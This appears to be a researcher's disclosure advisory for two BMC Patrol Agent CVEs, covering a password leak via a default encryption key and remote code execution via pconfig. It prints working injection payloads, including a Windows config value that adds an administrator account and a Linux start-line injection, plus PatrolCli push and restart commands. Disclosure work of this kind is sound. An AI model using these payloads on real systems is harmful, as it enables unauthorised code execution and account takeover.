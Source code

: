 ```yaml
---
title: Vulnerabilities in BMC Patrol's agent remote configuration
---
```


Patrol's [default configuration](https://docs.bmc.com/docs/PATROLAgent/107/securing-patrol-agent-from-the-pconfig-clients-655597337.html) permits unauthenticated remote configuration access and modification:
![config](./Patrol/config.png)

If your organisation uses this default setting, it should be changed ASAP as this makes the agent subject to two unauthenticated vulnerabilities resulting in remote code execution.

CVE-2023-34258:Remote secrets leak using Patrol's pconfig (<22.1.00)
--------------------------------------------------------------------

The configuration is remotely queried using the ```pconfig``` binary. The configuration contains the encrypted password of the local Patrol user:
![get pass](./Patrol/get.png)

All Patrol instances before update 22.1.00 [use a default encryption key](https://gist.github.com/gquere/045638b9959f4b3e119ea01d8d6ff856).

Thus the password of the Patrol account can be decrypted:
![decrypt](./Patrol/decrypt.png)

A valid Patrol account can be used to authenticate to the service and remotely execute code:
![exec](./Patrol/exec.png)

This vulnerability is mitigated in versions >=22.1.00 since the encryption key has been diversified.


CVE-2023-34257:Remote code excution using Patrol's pconfig
----------------------------------------------------------

The agent's configuration can be remotely updated using the ```pconfig``` binary.

Remote code execution can be achieved by injecting commands in the masterAgentName field that is used to start the SNMP service.

For Windows:
```
"/snmp/masterAgentName" = { REPLACE = "cmd /c \"net user test_lol sup3rPASS! /add && net localgroup Administrators test_lol /add\" &&" },
"/snmp/masterAgentDir" = { REPLACE="bin/../../../Windows/system32/" },
```

Do note that the ```masterAgentDir``` path is relative and depends on Patrol's installation path. Usually this is under C:\BMC.

On Linux systems (according to my old notes, YMMV) it's a different parameter that leads to code execution:
```
"/snmp/masterAgentStartLine" = { REPLACE="/usr/bin/touch /tmp/snmp ; /usr/bin/touch /tmp/snmp2 & #" },
```

The configuration is pushed using the ```+Reload``` directive:
```
PatrolCli -host xxx +Reload /tmp/my_config
```

To maximize chances of success, only the new SNMP configuration should be pushed. Remotely overwriting other parts of the configuration may result in an **unrecoverable** remote DoS.

The agent needs to be remotely restarted for the modification to take effect:
```
PatrolCli -host xxx +RESTART
```

Editor response
---------------
According to the editor these are not vulnerabilities: "These are not vulnerabilities for us as we have provided the option to implement the authentication".

Timeline
--------
2021: Vulnerabilities discovered  
2023-01: Editor contacted  
2023-02: Editor ACK  
2023-05: FD
